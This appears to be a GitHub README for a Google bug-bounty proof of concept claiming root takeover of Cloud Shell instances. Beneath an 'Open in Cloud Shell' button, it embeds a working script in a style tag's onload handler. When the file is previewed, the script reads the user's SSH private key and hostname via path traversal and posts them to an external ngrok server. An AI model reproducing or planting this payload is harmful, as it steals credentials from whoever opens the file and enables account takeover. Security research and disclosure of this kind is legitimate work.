 # Google VRP testing  
Google cloudshell instance take over (as root)

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https:%2F%2Fgithub.com%2Fcuriouscurrent%2Fgcs_testing.git&cloudshell_open_in_editor=readme.md)

## Getting Started 
just need to preview this file to see the magic 
 
<style onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key
    read_file('file:///../id_cloudshell')          
    // getting the hostname (external connection)
    read_file('file:///etc/hostname')      
         
    setTimeout(function(){ 
        send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv 55555
         let attacker_server =  ' https://56051573.ngrok.io'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 
  
 
